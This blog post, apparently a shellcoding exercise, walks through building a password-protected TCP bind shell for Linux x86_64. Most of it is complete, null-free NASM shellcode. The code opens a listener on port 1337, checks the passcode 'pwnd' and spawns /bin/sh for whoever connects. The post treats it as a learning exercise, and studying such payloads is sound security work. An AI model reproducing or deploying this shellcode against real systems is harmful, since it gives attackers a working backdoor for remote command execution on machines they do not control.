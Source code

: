 Introduction
------------
In this post we will create a custom TCP bind shell for Linux x86_64 architecture that requires password to spawn a shell. Please note we wont be going into too much details on how each function work as this has already been discussed in my previous post [here](https://ihack4falafel.github.io/Creating-Custom-TCP-Bind-Shell-~-Linux-x86/).

Shellcode
---------
If you’re not familiar with x86_64 assembly its pretty much the same as x86 from shellcoding perspective. The following are the key add-ons (I should say) that you get when using x86_64 assembly as opposed to x86:

* The registers hold twice as much as x86 ones (8 bytes).
* You have 8 more registers (R8-R15).
* The ability to craft position independent shellcode using Instruction Pointer Relative Addressing.

I used `read()` function to check for input via `stdin` and then compare it to a predefined password (in this case I used `pwnd`), if the check fails the shellcode will jump to `_nop` section which will effectivly cause the bind shell to crash. Please refer to the link in the introduction section for more in-depth analysis of the functions used by the bind shell. The following is the final null-free shellcode.

```nasm
global _start

section .text

_start:

	; int socket(int domain, int type, int protocol)
	; rax=41, rdi=2, rsi=1, rdx=0
	xor esi,esi
	mul esi                
	inc esi
	push 2 
	pop rdi
	add al, 41
	syscall

	; save socket fd in rdi
	xchg   rdi,rax

	; setup sockaddr strcture (af_inet=2, port=1337, inaddr_any, 0)
     push 2
     mov word [rsp + 2], 0x3905
     push rsp      
     pop rsi

	; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
	; rax=49, rdi=fd, rsi=rsp, rdx=16
	push 0x31
	pop rax
	push rsp
	pop rsi
	push 0x10
	pop rdx
	syscall

	; int listen(int sockfd, int backlog)
	; rax=50, rdi=fd, rsi=who cares
	pop rsi
	push 0x32
	pop rax
	syscall

	; new = accept(sock, (struct sockaddr *)&client, &sockaddr_len)
	; rax=43, rdi=fd, rsi=rsp, rdx=16
	sub rsp, 0x10
	push rsp
	pop rsi
	push 0x2b
	pop rax
	push 0x10
	push rsp
	pop rdx
	syscall

	; store newly spawnd fd in r9
	xchg r9,rax

	; close parent socket
	xor rax, rax
	push 0x30
	pop rax
	syscall

	; dup2 (new, old)
	; rax=33, rdi=new fd, rsi=0,1,2 (stdin, stdout, stderr)
	xchg   rdi,r9
	push 0x3
	pop rsi
_loop:
	push 0x21
	pop rax
	dec esi
	syscall
	loopnz _loop

	; read (int fd, void *bf, size_t count)
	; rax=0, rdi=0 (stdin), rsi=rsp, rdx=4 (pwnd)
	xor rax, rax
	push rax
	pop rdi
	push rax
	push rsp
	pop rsi
	push 0x4
	pop rdx
	syscall

	; check passcode (pwnd)
	push 0x646e7770
	pop rbx
	cmp dword [rsi], ebx
	jne _nop

	; int execve(cont char *filename, char *const argv[], char *const envp[])
	; rax=59, rdi=*/bin//sh, rsi=0, rdx=0
	xor rax, rax
	push rax
	mov rbx, 0x68732f2f6e69622f
	push rbx
	push rsp
	pop rdi
	push rax
	push rsp
	pop rsi
	cdq
	push 0x3b
	pop rax
	syscall
	
_nop:
	nop
```

Now comes that fun part, let’s test out the shellcode.

![](/assets/images/Polymorphic_shellcode_linux_x86/Execve.png)
